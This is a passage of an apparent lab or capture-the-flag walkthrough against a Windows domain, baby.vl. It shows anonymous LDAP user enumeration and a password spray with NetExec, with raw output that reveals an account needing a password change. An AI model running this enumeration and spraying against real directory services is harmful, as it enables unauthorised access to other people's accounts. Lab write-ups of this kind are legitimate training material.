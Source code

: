 ## Step 3: Extracting Usernames

To make the LDAP enumeration results easier to work with, we filter only the **username column** using `awk`:


```bash
nxc ldap 10.10.76.243 -u '' -p '' --users --kdc baby.vl | awk '{print $5}'
```

Result (clean list):

```output
Guest
Jacqueline.Barnett
Ashley.Webb
Hugh.George
Leonard.Dyer
Connor.Wilkinson
Joseph.Hughes
Kerry.Wilson
Teresa.Bell

```

This gives us a **userlist** that can be reused for password spraying, Kerberos attacks, or authentication attempts.

## Step 4: Password Spraying with Discovered Credentials

We use the password `BabyStart123!` against all enumerated accounts.  
NetExec’s `--continue-on-success` flag ensures it tries every user even if one works

```bash
nxc ldap 10.10.76.243 -u 'users' -p 'BabyStart123!' --continue-on-success
```

**Result:**

- Most accounts failed authentication.
    
- `Teresa.Bell : BabyStart123!` is also invalid.
    
- One **important finding**:
```output
DAP        10.10.76.243    389    BABYDC           [*] Windows Server 2022 Build 20348 (name:BABYDC) (domain:baby.vl)
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Guest:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Jacqueline.Barnett:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Ashley.Webb:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Hugh.George:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Leonard.Dyer:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Connor.Wilkinson:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Joseph.Hughes:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Kerry.Wilson:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Teresa.Bell:BabyStart123! 
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\Caroline.Robinson:BabyStart123! STATUS_PASSWORD_MUST_CHANGE
LDAP        10.10.76.243    389    BABYDC           [-] baby.vl\:BabyStart123! 

```
